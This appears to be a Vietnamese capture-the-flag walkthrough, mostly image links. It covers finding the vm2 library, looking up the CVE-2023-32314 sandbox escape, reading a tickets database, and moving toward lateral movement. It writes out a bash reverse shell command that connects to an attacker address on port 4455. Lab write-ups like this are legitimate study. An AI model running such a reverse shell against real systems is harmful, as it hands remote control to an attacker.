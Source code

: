 từ /about thấy vm2 library

[https://lh7-us.googleusercontent.com/gBaRum4PsVKbkz4aN4wqavK7QZGXPwamVVAIrPpUhJMGMS-x3cY2GcVmY-NoNkkLCtTcNTBQStNn5-I68aXUQlW4nJ8kE9op1e54tvSL6g-J74LlWMVOYM75DJh2OJnGtT3JCXQTTXJS](https://lh7-us.googleusercontent.com/gBaRum4PsVKbkz4aN4wqavK7QZGXPwamVVAIrPpUhJMGMS-x3cY2GcVmY-NoNkkLCtTcNTBQStNn5-I68aXUQlW4nJ8kE9op1e54tvSL6g-J74LlWMVOYM75DJh2OJnGtT3JCXQTTXJS)

[https://lh7-us.googleusercontent.com/LjrTDCUGOhZv5V3tLs_pizuuDsnfBY9Frkph0S_-zvYk7TiqLlwbUi8E6FV3GJ_saNKQO-CUuO5jFN79MQumeJ4NCgCrhaRfk1tk-8r4Cmv5WziB4w0TqzqjWTiMfxsw4Ro3cuUREdJf](https://lh7-us.googleusercontent.com/LjrTDCUGOhZv5V3tLs_pizuuDsnfBY9Frkph0S_-zvYk7TiqLlwbUi8E6FV3GJ_saNKQO-CUuO5jFN79MQumeJ4NCgCrhaRfk1tk-8r4Cmv5WziB4w0TqzqjWTiMfxsw4Ro3cuUREdJf)

- tìm kiếm exploit

CVE-2023-32314 (điểm CVSS là 9,8) là lỗ hổng thoát khỏi Sandbox ảnh hưởng đến các phiên bản VM2 từ 3.9.17 trở xuống. Lỗ hổng có thể cho phép tin tặc vượt qua các giải pháp an ninh và giành quyền thực thi mã từ xa trên máy chủ chạy sandbox.

[Sandbox Bypass in vm2 | CVE-2023-32314 | Snyk](https://security.snyk.io/vuln/SNYK-JS-VM2-5537100)

[vm2 - sandbox escape - Multiple local Exploit (exploit-db.com)](https://www.exploit-db.com/exploits/51898)

[https://lh7-us.googleusercontent.com/1QEv2YZe5WZuFiDR5ttkYc56Ja_uoCDwHerDyBgZ5iYcC7Yiteff7HwFBf-_04n02oabk2fGiJhWmBWyzhOqZRwyGVF_Jco6z4qW84vQ3ap24PGVWH2J2TMftr0xkFaTG7BKjcKdHbS0](https://lh7-us.googleusercontent.com/1QEv2YZe5WZuFiDR5ttkYc56Ja_uoCDwHerDyBgZ5iYcC7Yiteff7HwFBf-_04n02oabk2fGiJhWmBWyzhOqZRwyGVF_Jco6z4qW84vQ3ap24PGVWH2J2TMftr0xkFaTG7BKjcKdHbS0)

[https://lh7-us.googleusercontent.com/rXS2tCx9RMf_JSrw2sVELDhTg-FH2nIX5BQMJeOBdJAt1B1W6Xh7sAfmMlgBMEgL0Xp_XBiX5_eSMhyot8QORlN1T9NILKz50UYbtSjp8hf9Wxqs4jRc-UN6OJqPa7yd2wtwesV94rZm](https://lh7-us.googleusercontent.com/rXS2tCx9RMf_JSrw2sVELDhTg-FH2nIX5BQMJeOBdJAt1B1W6Xh7sAfmMlgBMEgL0Xp_XBiX5_eSMhyot8QORlN1T9NILKz50UYbtSjp8hf9Wxqs4jRc-UN6OJqPa7yd2wtwesV94rZm)

[https://lh7-us.googleusercontent.com/TJFZbhD8vn43WYaVCZbP1ne5UBiKCsKHyWKBSLtnAey6HQ-wbzLPFLakE4rsM-274fFdDANFIlhp8_jvQBB1UkgkFictbYfCuQIw1IsuwfaB78MKsP4KisOrRt46jbSUjicUDLY6Ma7j](https://lh7-us.googleusercontent.com/TJFZbhD8vn43WYaVCZbP1ne5UBiKCsKHyWKBSLtnAey6HQ-wbzLPFLakE4rsM-274fFdDANFIlhp8_jvQBB1UkgkFictbYfCuQIw1IsuwfaB78MKsP4KisOrRt46jbSUjicUDLY6Ma7j)

đây là file sqlite format3 -> đọc file strings /var/www/contact/tickets.db

- tạo reverse shell

'bash -c "bash -i >& /dev/tcp/10.10.14.17/4455 0>&1"'

[https://lh7-us.googleusercontent.com/q0_JDsPDcSl6YYfZsA40RPwFHwnMC7oOQ5yMcFW6TYDVhgYL-GgT63xcYIGrJAk3h1SOnG2RKFfQP4dcgjayytCxAmfSMHfqU44gFjlzzwa-dDKLu1UVCFueSimDdexZP2R7uL8MRCrL](https://lh7-us.googleusercontent.com/q0_JDsPDcSl6YYfZsA40RPwFHwnMC7oOQ5yMcFW6TYDVhgYL-GgT63xcYIGrJAk3h1SOnG2RKFfQP4dcgjayytCxAmfSMHfqU44gFjlzzwa-dDKLu1UVCFueSimDdexZP2R7uL8MRCrL)

[https://lh7-us.googleusercontent.com/hoaWjBkkLGo0ygxs2oW9KM3QqDU8s5W6rChs4lclQt_AKUNCmCAgTAdNquZ76jYSi-nNJcnYvX1TjYs3vfHQFIQeNaqIqj-SIm-pghEq0WdY-SsJ9mRLx9J-tapaqwz0OQ1p2wrw_9Ug](https://lh7-us.googleusercontent.com/hoaWjBkkLGo0ygxs2oW9KM3QqDU8s5W6rChs4lclQt_AKUNCmCAgTAdNquZ76jYSi-nNJcnYvX1TjYs3vfHQFIQeNaqIqj-SIm-pghEq0WdY-SsJ9mRLx9J-tapaqwz0OQ1p2wrw_9Ug)

- lateral movement

[https://lh7-us.googleusercontent.com/pvHVyRKEGdrze4861z2lrkV261Ds242smbNdLP9jQ-_WpdmWk2UGjks0aZl2OQtuijaMst4ef81yVddgOkhbNWaN5A-B9i3DlZ5r12qMyNpzAoLX25sHjNUZDE-iSx3HQPv_-VGkD8Yx](https://lh7-us.googleusercontent.com/pvHVyRKEGdrze4861z2lrkV261Ds242smbNdLP9jQ-_WpdmWk2UGjks0aZl2OQtuijaMst4ef81yVddgOkhbNWaN5A-B9i3DlZ5r12qMyNpzAoLX25sHjNUZDE-iSx3HQPv_-VGkD8Yx)
